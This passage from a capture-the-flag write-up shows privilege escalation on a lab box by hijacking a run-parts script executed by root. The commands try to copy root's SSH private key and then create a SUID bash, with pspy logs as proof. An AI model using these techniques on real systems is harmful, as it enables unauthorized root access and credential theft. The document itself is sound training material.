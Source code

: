 I first tried getting a root SSH key, in case it existed:

```
jkr@writeup:~$ echo '#!/bin/sh' > /usr/local/sbin/run-parts
jkr@writeup:~$ echo 'cat /root/.ssh/id_rsa > /tmp/twig' >> /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```

There was nothing:

```
jkr@writeup:~$ cat /tmp/twig 
jkr@writeup:~$ 
```

As I'd finished the box, I thought I'd check methods other people had used. [0xdf](https://0xdf.gitlab.io/2019/10/12/htb-writeup.html) copies `bash` and gives it u+s permissions (SUID, to let it run as root). I tried to replicate this, without checking 0xdf's actual script:

```bash
jkr@writeup:~$ echo '#!/bin/sh' > /usr/local/sbin/run-parts
jkr@writeup:~$ echo 'cp /bin/bash /tmp/twig && chmod u+s /tmp/twig' >> /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```

This worked:

```bash
jkr@writeup:~$ /tmp/twig
-bash: /tmp/twig: Permission denied
jkr@writeup:~$ ls -la /tmp/
total 4420
drwxrwxrwt  4 root root    4096 Jul 15 17:36 .
drwxr-xr-x 22 root root    4096 Apr 19  2019 ..
-rwxr-xr-x  1 jkr  jkr   325084 Feb 11 10:48 linpeas.sh
-rwxr-xr-x  1 jkr  jkr  3078592 Jun 20  2020 pspy64
-rwSr--r--  1 root root 1099016 Jul 15 17:36 twig
drwx------  2 root root    4096 Jul 15 15:09 vmware-root
drwx------  2 root root    4096 Jul 15 15:09 vmware-root_1452-2731021070
jkr@writeup:~$ ls -la /tmp/twig
-rwSr--r-- 1 root root 1099016 Jul 15 17:36 /tmp/twig
```

But it wasn't executable:

```bash
jkr@writeup:~$ /tmp/twig
twig-4.4$ whoami
jkr
twig-4.4$ 
```

We can see it working in pspy which is cool:

```bash
2021/07/15 17:37:29 CMD: UID=0    PID=12918  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 17:37:29 CMD: UID=0    PID=12919  | cp /bin/bash /tmp/twig 
2021/07/15 17:37:29 CMD: UID=0    PID=12920  | chmod u+s /tmp/twig 
2021/07/15 17:37:29 CMD: UID=0    PID=12921  | /bin/sh /usr/local/sbin/run-parts --lsbsysinit /etc/update-motd.d 
2021/07/15 17:37:29 CMD: UID=0    PID=12922  | sshd: jkr [priv]  
2021/07/15 17:37:29 CMD: UID=1000 PID=12923  | -bash 
2021/07/15 17:37:29 CMD: UID=1000 PID=12924  | -bash 
2021/07/15 17:37:29 CMD: UID=1000 PID=12925  | -bash 
2021/07/15 17:37:29 CMD: UID=1000 PID=12926  | -bash 
2021/07/15 17:37:29 CMD: UID=1000 PID=12927  | -bash 
2021/07/15 17:37:34 CMD: UID=1000 PID=12928  | -bash 
2021/07/15 17:37:36 CMD: UID=1000 PID=12929  | /tmp/twig 
2021/07/15 17:38:01 CMD: UID=0    PID=12930  | /usr/sbin/CRON 
```
